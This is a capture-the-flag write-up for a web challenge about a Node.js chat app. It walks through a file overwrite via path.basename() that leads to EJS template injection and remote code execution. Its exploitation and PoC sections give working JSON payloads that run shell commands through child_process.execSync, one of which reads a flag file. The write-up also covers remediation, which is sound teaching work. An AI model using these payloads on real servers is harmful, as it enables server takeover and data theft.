




# Remote Code Execution via file overwrite

In this month dojo, we are searching for 0-day in the messaging system of hackers favorite chatroom. In the end, we will discover where the vulnerability is located, and how to exploit it to achieve Remote Code Execution (RCE).

The vulnerability of this Dojo can be found in the rendering process of the web page. By adding instructions for the templating engine, we will be able to read local file and execute shell commands. 

## Description - Code Review

In this application, we can input data and after it has been processed, it will be displayed in the web chat application :


Let's begin by reviewing the code source of the messaging system of the chatroom :
```js
class Message {
    constructor(to, msg) {
        this.to = to;
        this.msg = msg;
        this.file = null
    }
    send() {
        console.log(`Message sent to: ${this.to}`)
    }
    makeDraft() {
        this.file = path.basename(`${Date.now()}_${this.to}`)
        fs.writeFileSync(this.file, this.msg)
    }
    getDraft() {
        return fs.readFileSync(this.file)
    }
}

const userData = decodeURIComponent("<USER_INPUT>")

var data = {"to":"", "msg":""}
if ( userData != "" ) {
    try {
        data = JSON.parse(userData)
    } catch(err) {
        console.error("Error : Message could not be sent!")
    }
}

var message = new Message(data["to"], data["msg"])
message.makeDraft()

console.log( ejs.render(fs.readFileSync('index.ejs', 'utf8'), {message: message.msg}) )
```
The code is in JavaScript, and use EJS (Embedded JavaScript), a well know templating engine often used with NodeJS to generate dynamic HTML 

Let's analyse the code block by block :

#### 1°/ Input decoding and parsing
```js
const userData = decodeURIComponent("<USER_INPUT>")

var data = {"to":"", "msg":""}
if ( userData != "" ) {
    try {
        data = JSON.parse(userData)
    } catch(err) {
        console.error("Error : Message could not be sent!")
    }
}
```
First the user input is URL decoded, and converted to JSON with the function `Json.parse()`. We already know that we will need to send JSON data to the server if we want to exploit it, else we will get an error.

#### 2°/ Message object creation and storage
```js
var message = new Message(data["to"], data["msg"])
message.makeDraft()
```
Then the code create a `Message` object with the value `to` (the receiver of the message), and the value `mssg` (the content of the message). 

It then call the method `makeDraft()`: 
```js
    makeDraft() {
        this.file = path.basename(`${Date.now()}_${this.to}`)
        fs.writeFileSync(this.file, this.msg)
    }
```
This method is important in the exploitation steps. We can see the message is written in a file with the method `fs.writeFileSync()`, and the filename is create from the string `${Date.now()}_${this.to}`. 
This is important as the code is writing something we can control (value of `this.msg`) inside a file where we can control a part of the the filename (value of `this.to`).

#### 3°/ Page rendering
```js
console.log( ejs.render(fs.readFileSync('index.ejs', 'utf8'), {message: message.msg}) )
```
Finally, the code render the EJS file by reading the content of `index.ejs`, and then output the content. If we can hijack the content of `index.ejs`, we can add our own instructions for the templating engine and achieve Remote Code Execution (RCE).

## Exploitation

So, how do we exploit this. To be able to read local and execute commands, we need :
1. Take control of the complete filename in the method `Message.makeDraft()`. That way we can overwrite the content of `index.ejs`
2. Find a payload to include in `msg` value to either read file or execute commands. That way if we overwrite the `index.ejs` file, the templating engine will execute our payload when rendering the page.

#### 1°/ Overwriting `index.ejs`

Let's take control of the index file :
```js
this.file = path.basename(`${Date.now()}_${this.to}`)
```
The filename will look llike `1725197414488_Brumens` if we send a message to `Brumens`.
So the input would look like :
```json
{
	"to":"Brumens",
	"msg":"Hello"
}
```

Now let's say we set the value `"to": "Brumens/index.ejs`, the generated filename will be :
`1725197414488_Brumens/index.ejs`. 
Would this work ? Well let's take a look at `path.basename()` documentation :

From [w3schools.com](https://www.w3schools.com/nodejs/met_path_basename.asp):
>The `path.basename()` method returns the filename part of a file path.

So that mean that :
```
path.basename('something/somethingelse/useless_data/index.ejs')
```
will always return `index.ejs`, as it only extract the filename.

So if we send the following data to the server :
```json
{
	"to":"Brumens/index.ejs",
	"msg":"<h1>Hello World!</h1>"
}
```
The code will write "`<h1>Hello World!</h1>`" inside `index.ejs`. 
Let's test this theory :


#### 2°/ Find a payload to get RCE

Now what know how to overwrite `index.ejs`, we need to find a good payload to execute JavaScript code. As the file is going inside a templating engine, we need to use template balises (`<% %>`).

if we follow the following cheatsheet : 
https://github.com/aadityapurani/NodeJS-Red-Team-Cheat-Sheet
We find a good payload to execute a command :
```js
console.log(process.mainModule.require('child_process').execSync('id').toString());
```
So let's try that. The following JSON data should be enough : 
```JSON
{
	"to":"Brumens/index.ejs",
	"msg":"<% console.log(process.mainModule.require('child_process').execSync('id').toString()); %>"
}
```


It worked, we successfully got RCE !
## PoC

Now that we have a working exploit, we can use it to read the content of `/tmp/flag.txt`.
The following JSON body will output the content of flag :
```JSON
{
	"to":"Brumens/index.ejs",
	"msg":"<% console.log(process.mainModule.require('child_process').execSync('cat /tmp/flag.txt').toString()); %>"
}
```

Result :


FLAG : `FLAG{W1th_Cr34t1vity_C0m3s_RCE!!}`

## Risk

RCE (Remote Code Execution) pose a lot of risks to a web application : 
- Unauthorized access
- Data breaches
- Service disruption
- Defacing
- ...
As the attacker can execute shell commands, he can read files, modify web pages, install backdoors, ... The whole server can be compromised in case of RCE.  

## Remediation

The best way to remove the vulnerability here is to use at least one of the followings :
- **Sanitize User Input :**  add a filter for unwanted characters inside the `this.to` value, like `/` or `.ejs`.
- **Validate File Path :** using `path.join(directory, filename);`, you can be sure that all file are created inside a specific directory, like `messages/` so it's impossible to overwrite `index.ejs` or other important files
- For more robust file handling and security, consider using libraries like `multer` or `fs-extra`. These libraries often provide built-in sanitization and validation features.


As always, thanks to Brumens for the fun challenge !

#### #YesWeRHackers
## References :

- https://www.w3schools.com/nodejs/met_path_basename.asp
- https://quickref.me/ejs.html
- https://stackabuse.com/executing-shell-commands-with-node-js/
- https://github.com/aadityapurani/NodeJS-Red-Team-Cheat-Sheet